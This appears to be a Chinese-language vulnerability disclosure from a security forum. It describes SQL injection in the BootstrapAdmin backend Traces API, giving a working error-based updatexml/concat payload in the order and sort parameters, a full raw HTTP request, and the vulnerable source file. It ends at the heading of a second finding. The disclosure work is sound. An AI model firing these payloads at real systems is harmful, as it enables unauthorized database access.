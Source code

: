 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-3afb91d89295258405e8fb93954c4f2b8c893217.png)

【后台】查询用户访问分页数据接口存在SQL注入
-----------------------

权限：后台普通用户权限

### 漏洞利用

`http://localhost:50852/api/Traces`  
`http://localhost:50852/api/Traces?offset=0&limit=20&OperateTimeStart=2023-05-06&OperateTimeEnd=&AccessIP=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1,`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-5c8cf6e388fc054090f8b3dec75422e886035463.png)

请求包：

```python
GET /api/Traces?offset=0&limit=20&OperateTimeStart=2023-05-06&OperateTimeEnd=&AccessIP=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1, HTTP/1.1
Host: localhost:50852
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Traces
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

```

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\Trace.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-add98d7173fb5b439bb4bf5884489b9c37bdf5cf.png)

【后台】查询程序异常接口存在SQL注入
-------------------
